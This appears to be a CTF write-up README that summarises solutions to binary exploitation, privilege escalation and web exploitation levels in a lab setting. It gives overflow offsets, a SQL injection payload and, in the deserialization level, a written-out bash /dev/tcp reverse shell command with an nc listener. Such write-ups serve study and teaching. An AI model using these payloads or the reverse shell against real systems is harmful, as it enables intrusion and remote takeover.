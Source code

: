 # CTF Walkthrough

This README serves as an overview of each level's solution in the CTF. The detailed exploits and code can be found within the respective subdirectories for each category and level.

The solutions provided detail the vulnerabilities discovered, the process of exploitation, and the obstacles that had to be overcome at each level. This information can be valuable for understanding not just "what" the solutions are, but "why" they work and "how" they were arrived at.

I hope this guide is helpful for anyone looking to understand more about these types of vulnerabilities and the methods used to exploit them. Enjoy exploring, learning, and happy hacking!

## Binary Exploitation

### Level 1

**Solution**: The challenge here was pretty straightforward. The goal was to use a symlink and redirect `~` to the PATH.

### Level 2

**Solution**: The key to this level was to fuzz the `choice` function. Here's the step-by-step solution:

1. Input "1234". The program returned an "invalid input: 210" error.
2. Noticing the 210, I deduced that this could be an integer overflow since 1234 mod 1024 = 210.
3. After running the choice function again with an input of "1027" (since that's 3 modulo 1024), a shell was opened.
4. On further examination of the code, I identified that the integer does indeed overflow after 256.

### Level 3

**Solution**: The vulnerability exploited here lies in the reading of the username from user input. Here's how it was done:

1. When reading the username, the `get_string_from_user()` function mistakenly writes to the password buffer while using `USERNAME_BUFFER_SIZE`, causing an overflow.
2. Conveniently, the address of the function used for checking the credentials (`test_authenticate_admin`) is placed and called on the stack within the range we can overwrite with this overflow.
3. We can simply replace the address with the address of `test_start_admin_console`, which we find with `gdb` (> info address `test_start_admin_console`) = 0x4012ee.
4. We examined the assembly code to determine the amount of padding needed to get from the password buffer to the pointer to `test_authenticate_admin`.
5. We found that 0x40(%rsp) is the location of the buffer and 0x78(%rsp) is the location of the pointer. 0x78 - 0x40 = 0x38 = 3*16 +8 = 56.

### Level 4

**Solution**: The key steps were:

1. Start the echo service, which is vulnerable to a brute force attack since it's a fork server.
2. Cause a buffer overflow with a canary and redirect to `admin_console()`, then enter `l33t`.

Some obstacles along the way included:

- Realizing that brute force was the right approach took a while.
- Adding the address of `admin_console` right after the canary, forgetting about the frame pointer between the canary and the return address.
- Returning to the `admin_console()` address did not work. I had to return to a higher address, skipping one or two lines of assembly instructions.
- Realizing that the shell is opened in the running `echo_service` process and that I simply had to enter `l33t` there.

## Privilege Escalation

### Level 1

**Solution**: Upon reading the source code, I noticed a call to `~/.secret`.

1. I surmised that `~` is defined by the HOME variable in the environment.
2. Changing the HOME variable to the directory where the secret was stored made the program diff `.secret` with itself. This returned exit code 0, which gave me a shell.

### Level 2

**Solution**: The binary allows execution of commands with level 2 privileges (gid), but it's intended to be used only in `/devel/bin`. 

1. This can easily be bypassed using "../../".
2. Find the `l33t` command using `whereis`.
3. Run the `l33t` command as `group2`.

### Level 

3

**Solution**: The vulnerability lies in `strcpy`, which doesn't check if the source is larger than the target. Here's the exploit process:

1. The `strcpy` function occurs after the security checks, meaning we can bypass the check if the accessed binary is in the right directory and within our permissions.
2. We pretend to want to access `uniq`, then overflow `l33t` into the filename buffer from the argument buffer.

### Level 4

**Solution**: There's an off-by-one error in `safecpy`, allowing us to join `user` and `host` into one string, not separated by any null bytes.

1. The buffer for `greeting` is only 160 characters long, and it overflows if we fill it with one of these joined host/user names.
2. We can thus overwrite the return address.
3. Load shellcode into the environment and redirect the return address to it.
4. Open a shell, but executing `l33t` did not yield the desired result.
5. Execute the `l33t` command directly, instead of opening a shell.

## Web Exploitation

### Level 1

**Solution**: The key was realizing that PHP would interpret the hash starting with "0e" and consisting only of numerals as a float.

1. I wrote a Python script iterating through numbers to attach to the prefix until the hash fit the regular expression "^0e[ 0-9]*$".
2. Found "My lucky number is 161614089".
3. Flag: flag{2fCeHg649Oa1baQA}

### Level 2

**Solution**: Took some time to find the binary under /data.

1. Decompiled it with Ghidra.
2. Found that the first usage XORed the input with a string and compared the result to another string. XORed those two strings and got "admin" interpreted in ASCII.
3. Second use of the function was obviously checking the password: 0a677ebfe9eaccdcb878e9d219142b9d.
4. Flag: flag{IO7eRAhsbe7YKyAl}

### Level 3

**Solution**: Tried to inject all fields on the website.

1. Successful on username.
2. Tried to find out things about the user table and found it had a password column.
3. Iteratively guessed the password of tsutomu by using the LEFT() function in the injected query.
4. Result: ' OR LEFT(password,31) ='kevinmitnickisanarrogantbastard' -- -
5. Logged in as tsutomu and found the flag in his private blog.
6. Flag: flag{ir1kvKKvuX9CmmlS}

### Level 4

**Solution**: Vulnerable to Padding Oracle attack.

1. Found .hidden.txt by intercepting the packet with Burp Suite.
2. Got Burp Suite padding oracle hunter to work after lots of tries.
3. Flag: flag{JIp6XtSmWvisOFqz}

### Level 5

**Solution**: Recognized that it was a hash length extension attack fairly quickly.

1. Wrote a Python script using hashpump to extend the hashes.
2. Started looking around for which file to actually request.
3. Found .hidden.txt mentioned.
4. Was only successful when I brute-forced password length. Password was 39 long and not 30 as mentioned on the website.
5. Flag: flag{gMyWh8fcfhjhWw5K}

### Level 6

**Solution**: In this level, we exploited a Deserialization vulnerability, which involved a more complex process compared to previous levels:

1. Identified that this was the only service issuing a cookie.
2. Decoded the cookie using Base64 and discovered hints of a password and username.
3. Recognized the need for a deserialization attack, and used `ysoserial` to generate a payload.
4. Set up a DNS server to track DNS requests and tested the attack.
5. Identified working `ysoserial` payloads by testing them using wget to a webhook URL, appending the payload name for identification.
6. Encountered challenges in achieving a reverse shell, requiring the use of a modified version of `ysoserial`.
7. Command used for the reverse shell: "bash -i >& /dev/tcp/"+ip+"/"+port+" 0>&1". Listened with: nc -lvnp port
8. Navigated through server permissions to find the flag, which was found using the command: cat /var/websec/wwwstudent_43/level06/flag.txt
9. Flag: tomcat{wmfmRzJpzLtiz7a1}

### Level 7

**Solution**: In this level, an XML External Entity (XXE) vulnerability was exploited.

1. Identified the vulnerability as XML External Entity (XXE).
2. Uploaded an SVG that incorporates the file mentioned in the admin bio using a standard SVG payload from "Payload All The Things".
3. Experienced difficulties with padding. Wrote a Python script to iterate through the lorem ipsum a few pixels at a time.
4. Carefully examined the output pictures and eventually found the flag.
5. Flag: wsgi{FEKCCZcwYidfAurg}
